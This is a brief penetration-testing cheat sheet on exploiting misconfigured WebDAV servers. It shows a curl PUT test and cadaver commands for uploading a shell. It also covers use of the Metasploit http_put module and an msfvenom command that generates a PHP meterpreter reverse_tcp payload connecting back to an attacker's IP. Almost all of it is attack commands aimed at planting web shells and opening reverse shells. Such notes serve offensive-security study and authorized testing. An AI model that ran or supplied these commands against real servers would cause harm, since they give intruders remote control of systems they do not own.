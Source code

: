 # WebDAV

Simple test usinng curl:
```
curl –v http://vulnerable_address/some_folder/verify.txt -X PUT
```
If the target server is misconfigured, the above command will create a new file called verify.txt in the uploads directory.

If the file verify.txt is uploaded on the server, then it is vulnerable.
You can upload a shell using cadaver
```
cadaver http://vulnerable_address/some_folder/
put /location/to/shell
```

### Using metasploit
There is a metasploit module to exploit http put
```
use auxiliary/scanner/http/http_put
Copy cmd.php into /tmp folder and specify that as the FILEDATA.
After uploading, the FILENAME should be cmd.php
```
Even if it says failed, refresh the page and check.

#### Generating php meterpreter payload
```
msfvenom –p php/meterpreter/reverse_tcp LHOST=[attacker’s IP] LPORT=[local port to listen on] –f raw > [filename].php
```
